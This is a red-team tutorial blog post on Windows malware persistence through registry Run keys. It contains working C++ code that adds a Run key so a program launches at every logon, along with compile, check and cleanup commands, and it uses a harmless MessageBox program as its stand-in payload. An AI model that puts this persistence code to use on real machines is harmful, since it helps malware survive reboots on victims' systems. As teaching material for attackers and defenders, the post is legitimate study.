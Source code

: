 ```yaml
---
title:  "Malware development: persistence - part 1. Registry run keys. C++ example."
date:   2022-04-20 10:00:00 +0600
header:
  teaser: "/assets/images/51/2022-04-20_09-43.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/51/2022-04-20_09-43.png){:class="img-responsive"}    

This post starts a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching "classic" persistence trick: startup folder registry keys.    

### run keys

Adding an entry to the "run keys" in the registry will cause the app referenced to be executed when a user logs in. These apps will be executed under the context of the user and will have the account's associated permissions level.    

The following run keys are created by default on Windows Systems:    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`    
![pers](/assets/images/51/2022-04-20_18-57.png){:class="img-responsive"}    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`    
![pers](/assets/images/51/2022-04-20_18-58.png){:class="img-responsive"}    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`    
![pers](/assets/images/51/2022-04-20_18-59.png){:class="img-responsive"}    

> Please note that this suggests to another trick to anti-VM (VirtualBox)    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`    
![pers](/assets/images/51/2022-04-20_18-59_1.png){:class="img-responsive"}    

Threat actors can use these configuration locations to execute malware to maintain persistence through system reboots. Threat actors may also use masquerading to make the registry entries look as if they are associated with legitimate programs.    

### practical example

Let's go to look at a practical example. Let's say we have a *"malware"* `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mwindows -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/51/2022-04-20_19-08.png){:class="img-responsive"}    

And save it to folder `Z:\\2022-04-20-malware-pers-1\`:    

![pers](/assets/images/51/2022-04-20_19-10.png){:class="img-responsive"}    

Then, let's create a script `pers.cpp` that creates registry keys that will execute our program `hack.exe` when we log into Windows:    

```cpp
/*
pers.cpp
windows low level persistense via start folder registry key
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-20-malware-pers-1\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry key. Registry keys can be added from the terminal to the run keys to achieve persistence, but since I love to write code, I wanted to show how to do it with some lines of code.    

### demo

Let's compile our `pers.cpp` script:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/51/2022-04-20_19-20.png){:class="img-responsive"}    

Then, first of all, check registry keys in the victim's machine:    

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-35.png){:class="img-responsive"}    

Then, run our `pers.exe` script and check again:   

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-39.png){:class="img-responsive"}    

As you can see, new key added as expected.    
So now, check everything in action. Logout and login again:    

![pers](/assets/images/51/2022-04-20_09-40.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-20_09-40_1.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-20_09-44.png){:class="img-responsive"}    

Pwn! Everything is worked perfectly :)    

After the end of the experiment, delete the keys:    

```powershell
Remove-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "hack"
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-46.png){:class="img-responsive"}    

### windows 11

This trick is also work on `Windows 11`:

![pers](/assets/images/51/2022-04-21_10-29.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-21_10-30.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-21_10-30_1.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-21_10-30_2.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-21_10-31.png){:class="img-responsive"}    

And cleanup:

![pers](/assets/images/51/2022-04-21_10-32.png){:class="img-responsive"}    

### conclusion

Creating registry keys that will execute an malicious app during Windows logon is one of the oldest tricks in the red team playbooks. Various threat actors and known tools such as Metasploit, Powershell Empire provide this capability therefore a mature blue team specialists will be able to detect this malicious activity.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[source code in github](https://github.com/cocomelonc/2022-04-20-malware-pers-1)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
